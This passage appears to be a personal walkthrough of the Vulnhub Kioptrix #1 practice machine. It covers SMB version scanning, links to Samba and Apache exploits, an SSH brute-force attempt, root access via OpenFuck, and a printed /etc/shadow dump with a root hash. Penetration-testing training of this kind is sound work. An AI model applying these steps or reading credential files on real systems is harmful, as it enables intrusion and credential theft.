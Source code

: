 ***Port 139***

- Samba smb
    - Finding the `smb` version using `Metasploit`
        
        ![Screenshot 2023-06-01 at 11.26.45 AM.png](Vulnhub%20-%20Kioptrix%20(#1)%20a38e2842a9ab4550a4b0143024d8701e/Screenshot_2023-06-01_at_11.26.45_AM.png)
        
    - Found an auxiliary scanner to find the `smb` version. Now all we have to do is set the `RHOST (the target)`
        
        ![Screenshot 2023-06-01 at 11.28.20 AM.png](Vulnhub%20-%20Kioptrix%20(#1)%20a38e2842a9ab4550a4b0143024d8701e/Screenshot_2023-06-01_at_11.28.20_AM.png)
        
    - Found the exact version
        
        ![Screenshot 2023-06-01 at 11.30.25 AM.png](Vulnhub%20-%20Kioptrix%20(#1)%20a38e2842a9ab4550a4b0143024d8701e/Screenshot_2023-06-01_at_11.30.25_AM.png)
        
        - [https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)
        - [https://www.cvedetails.com/vulnerability-list/vendor_id-102/product_id-171/version_id-373318/Samba-Samba-2.2.1a.html](https://www.cvedetails.com/vulnerability-list/vendor_id-102/product_id-171/version_id-373318/Samba-Samba-2.2.1a.html)
        - [https://www.exploit-db.com/exploits/10](https://www.exploit-db.com/exploits/10)

---

## Exploitation and Root access

***Port 22***

- Trying to Brute Force port 22 using `Metasploit` and the built-in wordlist
- After running it for a while with no result, I stopped it and went to try to exploit other ports

***Port 80***

- Using OpenFuck, we see that we have the exact version exploitable of the Apache server ~ `0x6b`
- Running it
    
    ![Screenshot 2023-06-01 at 11.37.25 AM.png](Vulnhub%20-%20Kioptrix%20(#1)%20a38e2842a9ab4550a4b0143024d8701e/Screenshot_2023-06-01_at_11.37.25_AM.png)
    
- Root access gained
    
    ![Screenshot 2023-06-01 at 11.39.14 AM.png](Vulnhub%20-%20Kioptrix%20(#1)%20a38e2842a9ab4550a4b0143024d8701e/Screenshot_2023-06-01_at_11.39.14_AM.png)
    
    ```bash
    cat /etc/shadow
    
    root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::
    bin:*:14513:0:99999:7:::
    daemon:*:14513:0:99999:7:::
    adm:*:14513:0:99999:7:::
    lp:*:14513:0:99999:7:::
    sync:*:14513:0:99999:7:::
    shutdown:*:14513:0:99999:7:::
    halt:*:14513:0:99999:7:::
    mail:*:14513:0:99999:7:::
    news:*:14513:0:99999:7:::
    uucp:*:14513:0:99999:7:::
    operator:*:14513:0:99999:7:::
    games:*:14513:0:99999:7:::
    gopher:*:14513:0:99999:7:::
    ftp:*:14513:0:99999:7:::
    nobody:*:14513:0:99999:7:::
    mailnull:!!:14513:0:99999:7:::
    rpm:!!:14513:0:99999:7:::
    xfs:!!:14513:0:99999:7:::
    rpc:!!:14513:0:99999:7:::
    rpcuser:!!:14513:0:99999:7:::